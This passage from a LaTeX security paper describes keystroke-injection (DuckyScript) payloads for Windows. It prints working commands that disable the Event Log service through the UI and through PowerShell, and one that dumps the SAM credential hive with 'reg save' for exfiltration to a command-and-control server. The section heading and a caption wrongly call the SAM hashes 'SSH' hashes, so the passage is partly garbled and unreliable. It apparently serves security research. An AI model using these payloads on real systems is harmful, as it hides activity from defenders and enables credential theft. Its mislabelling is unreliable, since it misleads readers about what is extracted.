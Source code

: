 \begin{lstlisting}[caption={Exceprt: disable Windows Event Logging by navigating UI}, captionpos=b]
DELAY 1000
TAB
DELAY 2000
STRING m
DELAY 2000
TAB
DELAY 2000
ENTER
DELAY 6000
TAB
DELAY 2000
TAB
DELAY 2000
TAB
DELAY 2000
TAB
DELAY 2000
\end{lstlisting}

\textbf{CLI}

Using the Command Line for this attack does not have the same weaknesses as the UI approach. There is less chance for unexpected pop-ups and since it is much shorter and requires fewer steps, loading times don't have as big an impact. On the other hand, executing admin-level commands might pose a problem, as discussed in Section \ref{Methodology} \\

Once the admin problem has been navigated, the payload is straightforward and consists of entering commands and closing the PowerShell window.
The CLI approach is more reliable and concise, however, it requires admin privileges for the shell. This can be achieved through the WinX menu, where the admin shell is opened directly. Then the payload consists only of a few more lines:

\begin{lstlisting}[caption={Exceprt: disable Windows Event Logging through PowerShell}, captionpos=b]
STRINGLN Stop-Service -Name "eventlog"
DELAY 200
STRINGLN Set-Service -Name "eventlog" -StartupType Disabled
DELAY 300
STRINGLN exit
\end{lstlisting}


\subsubsection{Extract SSH hashes}

Hash's associated keys, subkeys, and values make up a hive that can be exfiltrated from the Windows system by storing it in a file and sending it to a command and control (C\&C) server. \\
Once admin privileges on a terminal have been secured, this is a straightforward process. 


 \begin{lstlisting} [caption={Exceprt: extract and SSH files}, captionpos=b]
 STRINGLN reg save HKLM\SAM C:\sam.hiv
 \end{lstlisting}

\subsubsection{Extract Private Key Files}

